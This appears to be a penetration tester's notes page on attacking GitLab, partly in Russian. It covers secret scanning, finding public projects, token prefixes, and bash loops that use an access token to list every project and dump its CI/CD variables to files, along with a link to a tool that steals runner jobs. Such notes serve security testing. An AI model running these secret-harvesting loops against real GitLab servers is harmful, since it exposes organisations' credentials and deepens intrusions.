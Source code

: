 ```yaml
---
description: Gitlab checks
---
```


# Gitlab

### Search for secrets

{% embed url="https://github.com/praetorian-inc/noseyparker" %}

```bash
#Scan repo
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan .
#Get results
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report
```

### Reconnaissance

{% embed url="https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/" %}

### Check public repositories

```bash
curl "https://gitlab.com/api/v4/projects?visibility=public&per_page=100"" | jq '.[] | {name, path, web_url}'
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

**Route `/explore` allow to go behind the login panel**

### Abusing GitLab token

#### Token types:

* #### **`glpat-` (GitLab Personal Access Token)**
* #### **`gitlab-internal-` (Internal API Token)**
* #### **`glct-` (GitLab CI/CD Job Token)**
* #### **`glrt-` (GitLab Runner Token)**

#### Get variables from projects

define count pages and replace max page in seq. First take all projects id

```bash
for page in $(seq 0 110); do echo $page && curl -s --header "PRIVATE-TOKEN: <token>" "https://gitlab.example.com/api/v4/projects?per_page=100&page=$page" | jq ".[].id" >> gitlab-ids.txt; done
```

Then try get var

```bash
while IFS='' read -r LINE || [ -n "${LINE}" ]; do url="https://gitlab.example.com/api/v4/projects/$LINE"; vars=$(curl -s --header 'PRIVATE-TOKEN: token' $url/variables); [ ${#vars} -gt 5 ] && echo $vars > .tempvars && curl -s --header 'PRIVATE-TOKEN: token' $url | jq --slurpfile v .tempvars '{id: .id, git: .http_url_to_repo, vars: $v[0]}' >> gitlab-vars.txt; done <gitlab-ids.txt
```

Also try get gitlab-group vars (мне пока лень)

### Abusing GitLab Runners

{% embed url="https://frichetten.com/blog/abusing-gitlab-runners/" %}

Script for steal tasks by requesting them faster than a real runner - [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)



### Check projects access level&#x20;

```bash
curl --header "PRIVATE-TOKEN: <token>" "https://gitlab.com/api/v4/projects?membership=true&per_page=100"
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

```json
[
  {
    "id": 123,
    "name": "my-repo",
    "path": "my-repo",
    "permissions": {
      "project_access": {
        "access_level": 30  # 30 = Developer
      },
      "group_access": null
    }
  }
]
```

**Уровни доступа:**

* `10` — Guest (только чтение)
* `20` — Reporter (чтение + доступ к CI/CD)
* `30` — Developer (чтение + запись + запуск CI/CD)
* `40` — Maintainer (полный доступ, кроме удаления проекта)
* `50` — Owner (полный доступ)
